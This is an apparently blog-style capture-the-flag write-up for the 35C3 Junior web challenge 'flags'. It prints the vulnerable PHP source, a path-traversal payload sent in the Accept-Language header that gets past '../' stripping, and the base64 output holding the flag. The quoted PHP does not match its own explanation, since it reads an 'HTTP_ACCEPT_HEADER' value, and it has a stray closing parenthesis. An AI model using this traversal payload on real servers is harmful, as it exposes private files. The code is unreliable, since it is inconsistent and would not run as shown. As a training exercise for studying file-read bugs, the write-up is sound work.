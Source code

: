 ```yaml
---
layout: post
title: "Solution to 35C3 Junior CTF challenge flags"
author: capitol
category: ctf
---
```


![flags](/images/multiple-flags.jpg)

##### Name:
flags

##### Category:
web

##### Points:
500 (variable)

#### Writeup

This was the challenge we got:

> Fun with flags: http://35.207.169.47
>
> Flag is at /flag
>
> Difficulty estimate: Easy

# Walkthrough

We got the server side code, which looks like this:

```php
<?php
  highlight_file(__FILE__);
  $lang = $_SERVER['HTTP_ACCEPT_HEADER'] ?? 'ot';
  $lang = explode(',', $lang)[0];
  $lang = str_replace('../', '', $lang);
  $c = file_get_contents("flags/$lang");
  if (!$c) $c = file_get_contents("flags/ot");
  echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">');
```

The objective was to read the file at `/flag` on the file system. When loading the
web page, one is most likely to get a warning from PHP hinting that there is no file
at the `flags/$lang` path from PHP, where $lang is the user's language.

The embedded PHP suggests that whatever is at that file path is Base64 encoded and
pushed directly into the image part of the page response.

By manipulating the `Accept-Language` request header, one can alter what file is
requested. But, all input values are sanitised by replacing `"../"` in the input
string with `""`.

By changing the request header to

```
Accept-Language: ....//....//....//....//flag
```

the image header turns into

```
<img src="data:image/jpeg;base64,MzVjM190aGlzX2ZsYWdfaXNfdGhlX2JlNXRfZmw0Zwo=">
```

which, when decoded, yields the flag `35c3\_this\_flag\_is\_the\_be5t\_fl4g`.
